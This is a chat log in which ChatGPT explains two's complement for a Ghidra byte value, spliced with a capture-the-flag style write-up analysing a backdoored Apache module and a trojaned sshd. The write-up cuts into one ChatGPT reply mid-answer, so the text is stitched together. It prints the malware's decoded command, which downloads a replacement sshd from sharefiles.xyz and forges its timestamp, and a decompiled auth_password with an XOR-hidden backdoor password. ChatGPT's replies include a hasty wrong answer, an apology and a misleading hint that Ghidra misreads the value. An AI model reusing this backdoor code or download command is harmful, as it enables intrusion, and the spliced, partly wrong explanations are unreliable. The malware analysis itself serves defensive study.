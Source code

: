 


This value seems weird?
  backdoor[30] = -0x5b;

ChatGPT
Yes, you're right. The line backdoor[30] = -0x5b; is setting the value at index 30 of the backdoor array to the negative of hexadecimal 0x5b.

In hexadecimal, 0x5b is equivalent to 91 in decimal. The negative of 91 is -91.

So, this line is equivalent to backdoor[30] = -91;. It assigns the value -91 to the 30th element of the backdoor array.

This specific value may have a specific meaning or purpose in the context of the code, especially considering that the entire backdoor array is later manipulated using XOR operations. The exact purpose would depend on the broader context of the code and the goals of the program.

User
Wouldn't it just be 
Byte 30 shows as -0x5b in Ghidra for some reason, but this converts to a positive hex value by adding 256 (0x100) to get 0xa5. I’ve put these in 30–>1 so that I can easily copy these four and eight byte words without having to swap their byte order. But that leaves the first byte last, so I need to flip all the bytes (after I convert it from binary, or else it would swap the characters within bytes, and that’d be wrong).

ChatGPT
Yes, you are correct. I apologize for any confusion in my previous response. The representation of -0x5b in a signed 8-bit integer context would indeed be the two's complement of 0x5b, which is 0xa5 in hexadecimal.

So, in the context of a signed 8-bit integer, backdoor[30] = -0x5b; is equivalent to backdoor[30] = 0xa5;. The value 0xa5 is then used in subsequent operations or checks within the code.

Your explanation about the byte order and the need to flip the bytes after converting from binary is accurate. Depending on the endianness of the architecture, you may need to adjust the byte order to interpret the data correctly.

Thank you for pointing out the discrepancy, and I appreciate your understanding. If you have any further questions or if there's anything else I can help you with, feel free to let me know!

User
I don't get it though.. if ghidra shows it was -0x5b ... how can we convert it ourselves?
ChatGPT
I apologize for any confusion. It seems there might be a misunderstanding in the interpretation of the value. Let's clarify:

In the context of signed 8-bit integers, the hexadecimal value -0x5b is equivalent to the two's complement of 0x5b. The two's complement of a positive number is obtained by inverting all the bits and adding 1.

For example:

0x5b in binary is 01011011.
Inverting the bits results in 10100100.
Adding 1 gives 10100101, which is 0xa5 in hexadecimal.
So, the correct interpretation is that backdoor[30] is set to 0xa5, not -0x5b.

If Ghidra is showing -0x5b, there might be an issue with how the data is being interpreted or displayed in Ghidra. It's important to note that interpreting binary data can depend on the context and the data type used.

If you're unsure about the representation in Ghidra, you might want to double-check the data type, endianness, and other settings to make sure it's interpreting the data correctly. If possible, cross-reference it with other parts of the code or documentation.

User
so what if ghidra was showing -0x5c
ChatGPT
If Ghidra is showing -0x5c, you can convert it to its equivalent positive hexadecimal value by considering two's complement.

Here's how you can do it:

The positive hexadecimal value represented by 0x5c is 92.
To find the two's complement (negative value), invert all the bits of 92.
The binary representation of 92 is 01011100.
Inverting the bits gives 10100011.



mod_reader
I’ll pull a copy of mod_reader.so back to my VM and open it in Ghidra. Looking at the functions, reader_register_hooks is interesting. It just calls two other functions:

void reader_register_hooks(apr_pool_t *p)

{
  ap_hook_handler(reader_handler,0,0,10);
  ap_hook_post_config(hook_post_config,0,0,0);
  return;
}
ap_hook_handler registers the function to handle requests. The 10 at the end is ARP_HOOK_MIDDLE, which says that this hook should run somewhere, but isn’t specific about being at the start or end. reader_handler doesn’t seem to do anything interesting.

ap_hook_post_config will register the function hook_post_config to run after each start of the service, and it’s more interesting:

int hook_post_config(apr_pool_t *pconf,apr_pool_t *plog,apr_pool_t *ptemp,server_rec *s)

{
  long lVar1;
  long in_FS_OFFSET;
  char *args [4];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  pid = fork();
  if (pid == 0) {
    b64_decode("d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0 ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk"
               ,(char *)0x0);
    args[2] = (char *)0x0;
    args[3] = (char *)0x0;
    args[0] = "/bin/bash";
    args[1] = "-c";
    execve("/bin/bash",args,(char **)0x0);
  }
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
It’s doing a similar thing to the previous backdoor, forking off a call to bash, this time with a base64-encoded string. That string decodes to:

oxdf@hacky$ echo "d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk" | base64 -d
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
With whitespace:

wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; 
touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
It’s getting a sshd binary and setting the timestamps to match a file already on the disk. I’ll pull back a copy of that as well.

sshd
This is a much larger program, but looking through the various functions, there’s a bunch that start with auth_:

image-20220128141252543
auth_password seems like a good place to leave a backdoor, and it is:


```
int auth_password(ssh *ssh,char *password)

{
  Authctxt *ctxt;
  passwd *ppVar1;
  int iVar2;
  uint ret;
  byte *pbVar3;
  byte *pbVar4;
  size_t sVar5;
  byte bVar6;
  int iVar7;
  long in_FS_OFFSET;
  char backdoor [31];
  byte local_39 [9];
  long canary;
  
  bVar6 = 0xd6;
  ctxt = (Authctxt *)ssh->authctxt;
  canary = *(long *)(in_FS_OFFSET + 0x28);
  backdoor._28_2_ = 0xa9f4;
  ppVar1 = ctxt->pw;
  iVar7 = ctxt->valid;
  backdoor._24_4_ = 0xbcf0b5e3;
  backdoor._16_8_ = 0xb2d6f4a0fda0b3d6;
  backdoor[30] = -0x5b;
  backdoor._0_4_ = 0xf0e7abd6;
  backdoor._4_4_ = 0xa4b3a3f3;
  backdoor._8_4_ = 0xf7bbfdc8;
  backdoor._12_4_ = 0xfdb3d6e7;
  pbVar3 = (byte *)backdoor;
  while( true ) {
    pbVar4 = pbVar3 + 1;
    *pbVar3 = bVar6 ^ 0x96;
    if (pbVar4 == local_39) break;
    bVar6 = *pbVar4;
    pbVar3 = pbVar4;
  }
  iVar2 = strcmp(password,backdoor);
  ret = 1;
  if (iVar2 != 0) {
    sVar5 = strlen(password);
    ret = 0;
    if (sVar5 < 0x401) {
      if ((ppVar1->pw_uid == 0) && (options.permit_root_login != 3)) {
        iVar7 = 0;
      }
      if ((*password != '\0') ||
         (ret = options.permit_empty_passwd, options.permit_empty_passwd != 0)) {
        if (auth_password::expire_checked == 0) {
          auth_password::expire_checked = 1;
          iVar2 = auth_shadow_pwexpired(ctxt);
          if (iVar2 != 0) {
            ctxt->force_pwchange = 1;
          }
        }
        iVar2 = sys_auth_passwd(ssh,password);
        if (ctxt->force_pwchange != 0) {
          auth_restrict_session(ssh);
        }
        ret = (uint)(iVar2 != 0 && iVar7 != 0);
      }
    }
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return ret;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}

```

There’s a buffer called backdoor that’s set and then XORed by 0x96. Then the password is compared to that value, and if so, the return value is set to one, and the rest of the function is skipped.

Recover Password
The most challenging part here is to get all the bytes in the right order. There are 31 bytes set here, and the byte order such that the first byte is the last two characters in each word. I’ve labeled some of the bytes 0 to 30 in red in this image:


I’ll combine all those to make this string, using a Python terminal starting with the byte I’ve labeled 30 going down to 0:

oxdf@hacky$ python3
Python 3.8.10 (default, Mar 15 2022, 12:22:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> backdoor_str = 'a5a9f4bcf0b5e3b2d6f4a0fda0b3d6fdb3d6e7f7bbfdc8a4b3a3f3f0e7abd6'
Byte 30 shows as -0x5b in Ghidra for some reason, but this converts to a positive hex value by adding 256 (0x100) to get 0xa5. I’ve put these in 30–>1 so that I can easily copy these four and eight byte words without having to swap their byte order. But that leaves the first byte last, so I need to flip all the bytes (after I convert it from binary, or else it would swap the characters within bytes, and that’d be wrong).

>>> import binascii
>>> backdoor = binascii.unhexlify(backdoor_str)[::-1]
All that remains is to loop over each byte and xor it with 0x96, and then convert back to a character and print:
Adding 1 to the inverted bits results in 10100100, which is 0xa4 in hexadecimal.
Therefore, in the context of an 8-bit signed integer, if Ghidra is showing -0x5c, the equivalent positive hexadecimal value would be 0xa4.
